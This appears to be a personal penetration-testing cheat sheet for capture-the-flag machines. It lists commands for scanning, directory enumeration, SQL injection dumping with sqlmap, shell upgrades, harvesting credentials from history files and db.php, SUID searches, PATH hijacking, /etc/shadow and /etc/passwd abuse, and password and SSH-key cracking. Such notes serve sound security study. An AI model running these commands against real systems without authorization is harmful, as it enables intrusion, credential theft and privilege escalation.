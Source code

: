 ## Reconaissance---------------------------------------------

##### nmap scanning

```bash
nmap -Pn -p- -T4 {ip}
nmap -A -p<ports> -T4 {ip}
```

##### directory enumeration
```bash
gobuster dir -u {ip} -w {path_wordlist} -t {no. threads} -x {strings, pdf, php, txt, etc.}
dirbuster #opens dirbuster window
```

##### checking for sql injections
```bash
sqlmap -u {weburl, http://10.10.60.252/administrator.php>} --forms --dump --dbms=mysql
sqlmap --tables -T users --dump
```

##### enum4linux (if may samba port open)
```bash
enum4linux -a <MACHINE IP>
```

## Foothold---------------------------------------------

##### connecting ssh
```bash
ssh {user}@{ip} -p {port} 
```

##### putting files in the target system
```bash
scp {path to linenum} {user}@{host}:{path} #Example: scp /opt/LinEnum.sh pingu@10.10.10.10:/tmp
```



## Foothold Enumeration---------------------------------------------

###### getting an interactive shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
SHELL=/bin/bash script -q /dev/null
Ctrl-Z
stty raw -echo
fg
reset
xterm
```
##### always check what kind of user you landed on
```bash
whoami
id
```

##### check files of user (and group) you landed on

```bash
find / -type f {-group/-user} {group/user} 2>/dev/null
ls -la /
```

##### check console history

```bash
cat ~/.*history | less
type C:\Users\{user}\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
```

##### if from www-data, check db credentials
```bash
cat /var/www/html/cdn-cgi/login/db.php
```

##### check sudo-able commands
```bash
sudo -l
```
##### check root processes
```bash
find / -perm +6000 2>/dev/null | grep '/bin/'
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

###### pivoting to other users (if you have password)
```bash
su {user name}
```



## Privelege Escalation ---------------------------------------------

##### Shell esscape sequences
https://gtfobins.github.io/

##### Weak file permissions
if /etc/shadow is readable -> crack hash (use john)
if /etc/shadow is writable -> rewrite hash (use john)
if /etc/passwd is writable -> add password (use openssl passwd)

##### Poisoning Cron jobs

##### adding PATH (for creating malicious programs)
```bash
export PATH={/tmp}:$PATH
```

##### Mysl UDF priv esc (if mysql is running on root)
https://www.exploit-db.com/exploits/1518

##### Kernel Exploits
perl /home/user/tools/kernel-exploits/linux-exploit-suggester-2/linux-exploit-suggester-2.pl

## Misc

##### use gdb in checking binary files
##### pwn command for overflow

##### in cracking hashes
```bash
hashcat -m {hash algo mode} {hash file path} {wordlist path}
```
https://hashcat.net/wiki/doku.php?id=example_hashes

##### in cracking ssh passkeys (given public and private keys)
```bash
python ssh2john.py id_rsa > id_rsa.hash
john id_rsa.hash -wordlist=rockyou.txt
```
https://www.abhizer.com/crack-ssh-with-john/

##### chmod permissions
1 - execute
2 - write
4 - read

## References

##### Root Reverse Shell Cheat sheet
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
